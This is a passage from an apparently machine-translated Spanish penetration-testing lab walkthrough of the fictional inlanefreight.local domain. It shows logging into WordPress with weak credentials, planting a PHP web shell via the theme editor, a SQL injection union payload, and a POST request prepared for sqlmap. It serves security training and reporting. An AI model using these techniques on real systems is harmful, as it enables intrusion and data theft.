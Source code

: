 Desde aquí, podemos navegar a`http://ir.inlanefreight.local/wp-login.php`e inicie sesión usando las credenciales`ilfreightwp:password1`. Una vez iniciado sesión, seremos dirigidos a`http://ir.inlanefreight.local/wp-admin/`donde podemos navegar`http://ir.inlanefreight.local/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty`Para editar el archivo 404.php para el tema inactivo`Twenty Twenty`y agregue un shell web PHP para obtener la ejecución del código remoto. Después de editar esta página y lograr la ejecución del código después de los pasos en el[Atacando a WordPress](https://academy.hackthebox.com/module/113/section/1208)Sección de la`Attacking Common Applications`Módulo, podemos registrar otro hallazgo para`Weak WordPress Admin Credentials`y recomiende que nuestro cliente implementa varias medidas de endurecimiento si planean dejar este sitio de WordPress expuesto externamente.

---

## status.inlaneFreight.local

Este sitio parece otro olvidado que no debería estar expuesto a Internet. Parece que es algún tipo de aplicación interna para buscar a través de registros. Ingresando una sola cita (`'`) Lanza un mensaje de error MySQL que indica la presencia de una vulnerabilidad de inyección SQL:`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1`. Podemos explotar esto manualmente usando una carga útil como:

Código:sql

```sql
' union select null, database(), user(), @@version -- //
```

Este es un ejemplo de un[Ataque de la unión de inyección SQL](https://academy.hackthebox.com/module/33/section/806).

También podemos usar SQLMAP para explotar esto también. Primero, capture la solicitud de publicación usando BURP, guárdelo en un archivo y marque el`searchitem`parámetro con un`*`Entonces SQLMAP sabe dónde inyectar.

  Enumeración y explotación web

```shell-session
POST / HTTP/1.1
Host: status.inlanefreight.local
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://status.inlanefreight.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://status.inlanefreight.local/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=s4nm572fgeaheb3lj86ha43c3p
Connection: close

searchitem=*
```
